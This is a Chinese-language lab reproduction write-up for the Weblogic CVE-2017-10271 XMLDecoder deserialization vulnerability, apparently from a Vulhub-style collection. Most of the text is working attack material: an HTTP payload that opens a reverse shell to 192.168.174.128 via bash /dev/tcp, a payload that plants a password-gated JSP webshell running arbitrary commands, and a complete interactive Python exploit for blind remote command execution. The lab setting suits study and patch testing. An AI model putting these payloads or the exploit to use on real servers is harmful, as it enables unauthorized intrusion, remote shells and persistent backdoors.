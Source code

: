 # Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞 CVE-2017-10271

## 漏洞描述

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

参考链接：

- https://www.exploit-db.com/exploits/43458/
- https://paper.seebug.org/487/
- [https://github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic%20WLS-WebServices组件反序列化漏洞分析.md](https://github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic WLS-WebServices组件反序列化漏洞分析.md)
- http://blog.diniscruz.com/2013/08/using-xmldecoder-to-execute-server-side.html

## 环境搭建

Vulhub启动测试环境：

```
docker-compose up -d
```

等待一段时间，访问`http://your-ip:7001/`即可看到一个404页面，说明weblogic已成功启动。

![image-20220302164201482](./images/202203021642629.png)

## 漏洞复现

### 反弹shell

发送如下数据包（注意其中反弹shell的语句，需要进行编码，否则解析XML的时候将出现格式错误）：

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.174.128/9999 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

成功获取shell：

![image-20220302164442146](./images/202203021644422.png)

### webshell

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
    <% if("poc".equals(request.getParameter("pwd"))){
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
    int a = -1; byte[] b = new byte[2048]; out.print("<pre>");
            while((a=in.read(b))!=-1){
                out.println(new String(b,0,a));
            }
            out.print("</pre>");
        }
    %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

访问：`http://your-ip:7001/bea_wls_internal/test.jsp`，执行命令：

![image-20220302165701848](./images/202203021657971.png)


## 漏洞EXP

```python
from __future__ import print_function
from builtins import input
import requests
import sys

url_in = sys.argv[1]
payload_url = url_in + "/wls-wsat/CoordinatorPortType"
payload_header = {'content-type': 'text/xml'}


def payload_command (command_in):
    html_escape_table = {
        "&": "&amp;",
        '"': "&quot;",
        "'": "&apos;",
        ">": "&gt;",
        "<": "&lt;",
    }
    command_filtered = "<string>"+"".join(html_escape_table.get(c, c) for c in command_in)+"</string>"
    payload_1 = "<soapenv:Envelope xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"> \n" \
                "   <soapenv:Header> " \
                "       <work:WorkContext xmlns:work=\"http://bea.com/2004/06/soap/workarea/\"> \n" \
                "           <java version=\"1.8.0_151\" class=\"java.beans.XMLDecoder\"> \n" \
                "               <void class=\"java.lang.ProcessBuilder\"> \n" \
                "                  <array class=\"java.lang.String\" length=\"3\">" \
                "                      <void index = \"0\">                       " \
                "                          <string>cmd</string>                 " \
                "                      </void>                                    " \
                "                      <void index = \"1\">                       " \
                "                          <string>/c</string>                  " \
                "                      </void>                                    " \
                "                      <void index = \"2\">                       " \
                + command_filtered + \
                "                      </void>                                    " \
                "                  </array>" \
                "                  <void method=\"start\"/>" \
                "                  </void>" \
                "            </java>" \
                "        </work:WorkContext>" \
                "   </soapenv:Header>" \
                "   <soapenv:Body/>" \
                "</soapenv:Envelope>"
    return payload_1

def do_post(command_in):
    result = requests.post(payload_url, payload_command(command_in ),headers = payload_header)

    if result.status_code == 500:
        print("Command Executed \n")
    else:
        print("Something Went Wrong \n")



print("***************************************************** \n" \
       "****************   Coded By 1337g  ****************** \n" \
       "*  CVE-2017-10271 Blind Remote Command Execute EXP  * \n" \
       "***************************************************** \n")

while 1:
    command_in = input("Eneter your command here: ")
    if command_in == "exit" : exit(0)
    do_post(command_in)
```

